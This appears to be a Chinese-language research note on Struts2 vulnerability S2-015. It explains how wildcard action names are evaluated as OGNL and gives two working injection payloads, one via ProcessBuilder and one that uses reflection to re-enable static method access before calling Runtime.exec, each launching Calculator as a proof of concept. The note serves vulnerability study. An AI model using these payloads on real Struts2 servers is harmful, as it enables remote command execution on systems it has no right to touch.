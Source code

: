 # S2-015分析

后面慢慢觉得好多地方没意思，官方都不设防御，好多都能通杀，我本人不太关注如何去找某些标签，到达最终过程如何，对我而言没意义，现在更关注struts当中关于ognl的攻防

## 分析

在 Struts2 中可以使用通配符 `*` 来匹配 action，并使用 `{1}` 来获取 `*` 的值

```xml
<package name="S2-015" extends="struts-default">
	<action name="*" class="com.demo.action.PageAction">
		<result>/{1}.jsp</result>
	</action>
</package>
```

为了研究一些攻防历史，我直接用了2.3.14.2版本,这里确实可以看到解析了

![](img/1.png)

我们也都知道SecurityMemberAccess当中allowStaticMethodAccess属性限制了静态方法的执行，在这个版本当中allowStaticMethodAccess用了final修饰，并且setAllowStaticMethodAccess也没了，所以没法显式调用进行修改

毕竟静态方法调用受限制

```java
   public boolean isAccessible(Map context, Object target, Member member, String propertyName) {
        boolean allow = true;
        int modifiers = member.getModifiers();
        if (Modifier.isStatic(modifiers) && member instanceof Method && !this.getAllowStaticMethodAccess()) {
xxxx
```

那怎么办，一方面我们可以使用非静态方法调用 

```java
${new java.lang.ProcessBuilder(new java.lang.String[]{'open', '-a','Calculator'}).start()}.action
```

另一方面就是反射

```
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true),@java.lang.Runtime@getRuntime().exec('open -a Calculator.app')}.action
```

这两个都是可以的
